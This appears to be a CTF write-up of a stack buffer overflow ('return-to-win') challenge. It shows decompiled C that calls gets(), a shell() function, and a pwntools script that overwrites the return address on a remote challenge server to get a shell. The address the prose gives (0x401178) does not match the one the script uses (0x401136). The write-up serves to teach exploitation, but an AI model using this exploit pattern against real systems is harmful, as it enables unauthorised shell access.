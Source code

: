# Basic Overflow

![Alt text](<Web capture_15-1-2024_204915_play.uoftctf.org.jpeg>)

In this challenge we got executable with no canary no pie

when we run it and put long string we got `segmentation fault`

![Alt text](Capture.PNG)

when we open the file with [ghidra](https://ghidra-sre.org/)

we find 2 functions

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```
and 
```c
void shell(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}

```
now its clear that this is return2win type of challenge.

what we need is just overwrite the address on the instruction pointer to make the program execute shell function 

first we need to find the address of shell function we can do that using Ghidra or any debugger I prefer using [gdb-pwndbg](https://github.com/pwndbg/pwndbg)

![Alt text](Capture1.PNG)

now we have the address of shell function `0x0000000000401178`

we need to find how many bytes do we need to overwrite `RSP` it can be calculated manually but i prefer using `cyclic` tool, we create pattern using cyclic of 100 byte and see when the program crashes 

![Alt text](Capture2.PNG)

we can see the program crashes at pattern `jaaaaaaa`

lets find now how many bytes it takes to crash

![Alt text](Capture3.PNG)

we find 72 do we need to write 72 byte then the address of shell function

I like to do that using [pwntools](https://docs.pwntools.com/en/stable/) in python 

```python
from pwn import *
p = remote('34.123.15.202',5000)
payload = b"A"*72
payload += p64(0x401136)
p.sendline(payload)
p.interactive()
```
and by running the exploit script we got this

![Alt text](Capture4.PNG)
